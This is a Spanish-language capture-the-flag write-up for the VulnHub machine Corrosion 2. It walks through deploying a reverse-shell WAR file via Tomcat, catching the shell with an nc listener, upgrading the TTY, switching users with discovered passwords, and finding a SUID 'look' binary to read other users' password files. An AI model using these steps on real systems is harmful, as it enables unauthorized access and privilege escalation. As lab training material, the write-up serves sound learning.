 
Una vez subido el archivo desde el boton browser en la categoría `WAR file to deploy`, hay que seleccionar deploy para subir el archivo el aparecera en la tabla de aplicaciones.

![alt text](https://i.postimg.cc/SNDXf8KW/corrosion2-1.png)

una vez verificado que el archivo se encuentra subido se selecciona en la tabla de aplicaciones, pero primero hay que pner es escucha una peticion de `nc`.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/exploits]
└─# nc -nlvp 443                                                
listening on [any] 443 ...
```
Una vez seleccionado el archivo reverse y con la conexión `nc` abierta, se ejecuta la concexion de shell reversa.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/exploits]
└─# nc -nlvp 443                                                
listening on [any] 443 ...
connect to [192.168.200.147] from (UNKNOWN) [192.168.200.151] 56230
whoami
tomcat
hostname -I
192.168.200.151 192.168.210.128 
```
Una vez ganada la conexion reversa se debe hacer el tratamiento de la tty, para optmizar el manejo de la bash.

```java
script /dev/null -c bash 
Script started, file is /dev/null
tomcat@corrosion:/var/spool/cron$ ^Z
zsh: suspended  nc -nlvp 443
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/exploits]
└─# stty raw -echo; fg                  
[1]  + continued  nc -nlvp 443
                              reset xterm
tomcat@corrosion:/var/spool/cron$ export SHELL=bash
tomcat@corrosion:/var/spool/cron$ export TERM=xterm
```
Se debe probar las contraselas encontradas para intentar cambiar de sesion con los usuarios encontrados.
```java
tomcat@corrosion:/home/randy$ su 
Password: 
$ bash
jaye@corrosion:/home/randy$ cd ~
jaye@corrosion:~$ pwd
/home/jaye
jaye@corrosion:~$ 
```
En la carpeta home del usuario jaye, hay una carpeta files con un archivo con permisos SUID.
```java
jaye@corrosion:~$ ls -la Files/
total 24
drwxr-xr-x  2 root root  4096 Sep 17  2021 .
drwxr-x--x 18 jaye jaye  4096 Sep 17  2021 ..
---s--s--x  1 root root 14728 Sep 17  2021 look
jaye@corrosion:~$ ls -la Files/look 
---s--s--x 1 root root 14728 Sep 17  2021 Files/look
```
al momento de ejecutar el archivo `./look`, se puede asumir que se utiliza para leer archivos por lo que, se puede utilizar para listar la contraseña del usuario randy, adicional se puede evidenciar que se puede pasar un string para porder filtrar el contenido de los archivos.
```java
jaye@corrosion:~/Files$ ./look
usage: look [-bdf] [-t char] string [file ...]
```